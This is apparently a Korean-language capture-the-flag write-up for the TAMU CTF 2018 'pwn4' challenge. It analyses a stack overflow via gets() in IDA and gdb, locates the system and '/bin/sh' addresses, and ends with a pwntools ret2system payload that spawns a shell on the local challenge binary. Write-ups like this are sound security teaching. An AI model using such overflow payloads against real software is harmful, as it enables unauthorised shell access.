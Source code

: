 ## [TAMU CTF 2018] pwn4 풀이

- checksec을 통해 보호기법 확인하기

![image](https://user-images.githubusercontent.com/59410565/117286314-ff3ca980-aea3-11eb-8276-07332312b427.png)

32bit 파일이고, NX가 걸려있다. 따라서 RET 변조를 통해 문제를 해결할 수 있을 것 같다.



- IDA를 사용하여 pwn4 살펴보기

// main() 함수

![image](https://user-images.githubusercontent.com/59410565/117286910-b89b7f00-aea4-11eb-8479-832dae86a2e3.png)



// reduced_shell() 함수

![image](https://user-images.githubusercontent.com/59410565/117286980-cc46e580-aea4-11eb-87c8-d6eda7007bcd.png)

-> s 입력을 gets로 받기 때문에 길이 제한 없이 입력할 수 있다. 따라서 stack overflow가 발생하게 된다.

-> ebp-1Ch를 했으므로, s의 크기는 0x1C(28) byte이다. 즉, s + SFP(4) + RET(4)인 stack 구조를 가진다.

// ls() 함수

![image](https://user-images.githubusercontent.com/59410565/117287272-234cba80-aea5-11eb-96e6-c5d55c9847a5.png)

// cal() 함수

![image](https://user-images.githubusercontent.com/59410565/117287364-395a7b00-aea5-11eb-9987-19c87da3af38.png)

// pwn() 함수

![image](https://user-images.githubusercontent.com/59410565/117287412-46776a00-aea5-11eb-9a00-b5705d252971.png)

// whoami() 함수

![image](https://user-images.githubusercontent.com/59410565/117287500-6018b180-aea5-11eb-85eb-bd3766a8a406.png)



- system, "/bin/sh" 주소 구하기

![image](https://user-images.githubusercontent.com/59410565/117291254-b7b91c00-aea9-11eb-9eab-37564a2c9311.png)

IDA로 '/bin/sh' 주소는 쉽게 알 수 있었다. (**0x0804a038**)

![image](https://user-images.githubusercontent.com/59410565/117446939-cb32b880-af77-11eb-9757-cd8b18a9fe37.png)

system의 주소 또한 IDA를 통해 알 수 있었다. (**0x08048430**)



- gdb로 분석하기

![image](https://user-images.githubusercontent.com/59410565/117537581-ec111180-b03c-11eb-8f7e-5a6a4ab70fa4.png)

...

![image-20210508203840220](C:\Users\hyera\AppData\Roaming\Typora\typora-user-images\image-20210508203840220.png)

**[Break Point]**

- reduced_shell+0 : reduced_shell() 함수의 첫 번째 명령어
- reduced_shell+77 : gets() 함수 호출
- reduced_shell+403 : reduced_shell() 함수의 RET 명령어

![image-20210508204109695](C:\Users\hyera\AppData\Roaming\Typora\typora-user-images\image-20210508204109695.png)

esp 레지스터가 가리키고 있는 최상위 stack 주소는 0xffffd00c 이다. 이 영역에는 Return address(0x080487ad)가 저장되어 있다.

![image](https://user-images.githubusercontent.com/59410565/117537731-dfd98400-b03d-11eb-92ba-670f1b8e7652.png)

![image](https://user-images.githubusercontent.com/59410565/117537833-6c844200-b03e-11eb-8ef3-30dc43dae908.png)

s 변수의 위치는 0xffffcfec 이고, return address와 32byte 떨어져있다. 즉, 문자를 32개 이상 입력하면 return address를 덮어쓸 수 있다.

![image](https://user-images.githubusercontent.com/59410565/117537855-89b91080-b03e-11eb-975f-09c848dd0f16.png)

0xffffd00c 영역의 값이 바뀌었다.

![image](https://user-images.githubusercontent.com/59410565/117538196-0ac4d780-b040-11eb-811b-079baa162b3a.png)

![image](https://user-images.githubusercontent.com/59410565/117538360-cab22480-b040-11eb-9242-fc55d1a17992.png)

"/bin/sh" 와  system의 위치를 알 수 있었다.



- Payload

```python
from pwn import *

p = process('./pwn4')

system = 0x08048430
binsh = 0x0804a038

payload = 'A'*32 
payload += p32(system)
payload += 'BBBB'
payload += p32(binsh)

p.sendafter("> ", payload)
p.interactive()
```



- Exploit

![image](https://user-images.githubusercontent.com/59410565/117450673-83faf680-af7c-11eb-8709-1d35fe46ea5b.png)

